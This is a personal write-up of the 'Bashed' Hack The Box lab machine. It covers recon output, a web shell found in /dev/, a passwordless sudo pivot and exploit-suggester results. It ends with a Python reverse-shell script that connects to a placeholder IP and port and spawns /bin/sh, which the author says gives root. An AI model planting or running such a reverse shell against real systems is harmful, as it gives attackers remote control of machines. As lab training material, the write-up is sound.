



# Bashed 
Name: Bashed
Date: 03/05/2022
Difficulty: Easy
Description: N/a
Better Description: Vi the final boss 
Goals: TJ Null OSCP number One
Learnt: Sometimes metasploit multi/handler is not the answer. 

## Recon

```bash
ping 10.129.107.29                  
PING 10.129.107.29 (10.129.107.29) 56(84) bytes of data.
64 bytes from 10.129.107.29: icmp_seq=1 TTL=63 time=42.1 ms
64 bytes from 10.129.107.29: icmp_seq=2 TTL=63 time=37.5 ms
64 bytes from 10.129.107.29: icmp_seq=3 TTL=63 time=40.9 ms
^C
--- 10.129.107.29 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 37.517/40.139/42.051/1.917 ms

nmap -F 10.129.107.29               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:44 BST
Nmap scan report for 10.129.107.29
Host is up (0.046s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

nmap -sC -sV -T 4 -p- 10.129.107.29 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:45 BST
Nmap scan report for 10.129.107.29
Host is up (0.051s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.29 seconds
```

Nikto

```bash
nikto -h 10.129.107.29
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.107.29
+ Target Hostname:    10.129.107.29
+ Target Port:        80
+ Start Time:         2022-05-03 16:47:01 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7916 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2022-05-03 16:55:02 (GMT1) (481 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                    
```

While nikto was still scanning I went to /dev/ tried the shell.


We can get user.txt from /home/arrexel, I then transfered a shell to make stdout easier.
Then got LinEnum:

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can just:

```bash
sudo -u scriptmanager /bin/bash
```

Now we are the scriptmanager user. Reran LinEnum and saw nothing exciting. Then linux-exploit-suggester.sh.
```bash
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

But then I found there is no gcc, cc, clang so this a clear dead-end.

I ran linuxprivchecker.sh a notice  popularity contest.
A Debian's popularity-contest, on a Ubuntu box..
It does these things:

```perl
-u <url>  submit to the given URL (default popcon.debian.org)
```
It did not seem to work. Ran some more scripts
`drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts`




```python
import socket, subprocesss,os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("IP", PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh", "-i"])
```

This will give you root.


